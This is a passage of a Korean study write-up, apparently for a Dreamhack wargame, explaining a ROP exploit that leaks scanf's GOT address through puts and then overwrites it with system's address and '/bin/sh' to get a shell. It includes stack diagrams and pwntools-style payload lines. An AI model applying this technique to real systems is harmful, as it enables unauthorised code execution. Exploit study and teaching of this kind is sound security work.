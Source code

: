 <br>

먼저 위의 코드로 보면, overflow가 발생했을 때의 main 함수에서 ret를 할 때의 스택 상황은 아래와 같다.

<br>

```
puts_plt + 6
pop_ret
scanf_got
scanf_plt
pop_pop_ret
%s
```

<br>

버퍼 오버플로우로 buf를 채우고 ret 주소에다 ```puts@plt+6```을 넣어줘서 puts 함수를 불러오는 것이다.

puts 함수의 리턴 주소로는 pop_ret가 되고 인자는 scanf_got가 된다. 

따라서 puts 함수는 scanf의 주소를 출력하게 되고 (위에서 본 주소, ```0xf7e2e0c0```), pop_ret의 주소로 리턴한다.

이 때의 스택은 아래와 같다.

<br>

```
scanf_got
scanf_plt
pop_pop_ret
%s
```

<br>

이 때, pop를 수행하여 ```scanf_got```가 스택에서 없어지고 ret를 수행하여 scanf_plt로 리턴하게 된다.

```scanf_plt```에서 scanf 함수의 인자로 ```%s``` 포맷 스트링을 주고 리턴 주소로 pop_pop_ret 주소를 넣어준다.

<br>

```
payload += p32(scanf_got)
payload += p32(scanf_plt)
payload += p32(0xdeadbeef)
payload += p32(scanf_got+4)
```

<br>

```
pop_pop_ret
%s
scanf_got
scanf_plt
0xdeadbeef
scanf_got+4
```

<br>

현재 스택을 보면 위에 처럼 되어 있다.

포맷 스트링의 주소값으로 scanf_got를 넣어주므로 scanf_got에 입력값이 들어가게 된다.

이 때, 드림핵에서 위의 코드를 보면 ```writeline(s, p32(system)+"/bin/sh\x00")``` 코드가 있다. 

즉, 입력값으로 system 함수의 주소와 문자열 ```/bin/sh```를 입력해준다.

따라서 ```scanf_got```에 system 함수의 주소와 문자열 ```/bin/sh```가 덮어지게 되었다.
```